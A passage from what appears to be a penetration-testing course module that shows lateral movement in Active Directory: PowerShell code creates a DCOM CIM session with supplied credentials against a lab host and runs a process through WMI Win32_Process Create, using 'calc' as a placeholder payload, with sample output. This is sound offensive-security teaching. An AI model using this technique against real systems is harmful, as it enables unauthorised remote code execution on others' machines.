 > Listing 2 - Creating the PSCredential object in PowerShell

Now that we have our PSCredential object, we need to create a _Common Information Model_ (CIM) via the [_New-CimSession_](https://docs.microsoft.com/en-us/powershell/module/cimcmdlets/new-cimsession?view=powershell-7.2) cmdlet.

To do that, we'll first specify DCOM as the protocol for the WMI session with the **New-CimSessionOption** cmdlet on the first line. On the second line, we'll create the new session, **New-Cimsession** against our target IP, using **\-ComputerName** and supply the PSCredential object (**\-Credential $credential**) along with the session options (**\-SessionOption $Options**). Lastly, we'll define 'calc' as the payload to be executed by WMI.

```
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
```

> Listing 3 - Creating a new CimSession

As a final step, we need to tie together all the arguments we configured previously by issuing the _Invoke-CimMethod_ cmdlet and supplying **Win32\_Process** to the _ClassName_ and **Create** to the _MethodName_. To send the argument, we wrap them in **@{CommandLine =$Command}**.

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

> Listing 4 - Invoking the WMI session through PowerShell

To simulate the technique, we can connect to CLIENT74 as _jeff_ and insert the above code in a PowerShell prompt. (Not all the code is shown below.)

```
PS C:\Users\jeff> $username = 'jen';
...
PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3712           0 192.168.50.73
```

> Listing 5 - Executing the WMI PowerShell payload.

Verifying the active processes on the target machine reveals that a new calculator process has been launched, confirming that our attack has succeeded.

![Figure 1: Inspecting The Task Manager](https://static.offsec.com/offsec-courses/PEN-200/imgs/ad_lat_movement/53bbc5aa681c96dbeb7a8a24331a7d39-calc.png)

Figure 1: Inspecting The Task Manager

Info

The PID of win32calc.exe is different from the PID in Listing 1 because the PID in Listing 1 belongs to calc.exe. When the wmic command in Listing 1 runs, it creates the process of calc.exe, which starts another process win32calc.exe, then calc.exe exits, leaving win32calc.exe running.
